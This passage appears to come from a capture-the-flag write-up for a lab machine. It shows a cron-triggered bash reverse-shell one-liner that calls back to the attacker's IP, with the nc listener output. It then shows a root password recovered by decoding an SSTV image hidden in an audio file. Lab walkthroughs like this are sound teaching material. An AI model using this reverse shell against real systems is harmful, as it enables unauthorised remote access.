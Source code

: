 Now on our attack machine we create a /home/bob-boba/coinflip.sh that sends us a shell.

```bash
mkdir -p home/bob-boba
echo '/bin/bash -i >& /dev/tcp/10.14.91.207/9001 0>&1' > ./home/bob-boba/coinflip.sh
```

We setup a listener and wait for the cronjob.

```terminal
$ nc -lvnp 9001                                                                                                                                                                       
listening on [any] 9001 ...                                                                    
connect to [10.14.91.207] from (UNKNOWN) [10.10.71.0] 40030                                                                                                                                   
bash: cannot set terminal process group (21752): Inappropriate ioctl for device                
bash: no job control in this shell                                                             
bob-boba@nanocherryctf:~$ whoami                                                               
whoami                                                                                         
bob-boba 
```

We got a shell as user `bob-boba`.

### Chad-cherry

We collected all the parts of `chad-cherry's` password, let's assemble them and authenticate.

We find an audio file named `rootPassword.wav`. Let's copy it to our machine and inspect it.

```bash
scp chad-cherry@cherryontop.thm:rootPassword.wav .
```

The file contains an image that we need to extract.

To do that we can use the tool [sstv](https://github.com/colaclanth/sstv)

```terminal
$ sstv -d rootPassword.wav -o file.png                                                 
[sstv] Searching for calibration header... Found!    
[sstv] Detected SSTV mode Robot 36                                                                                                                                                            
[sstv] Decoding image...                                                           [####################################################################################################]  99%
[sstv] Reached end of audio whilst decoding.                                                   
[sstv] Drawing image data...                                                                   
[sstv] ...Done!       
```

We open the image and get the root's password.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://github.com/colaclanth/sstv>
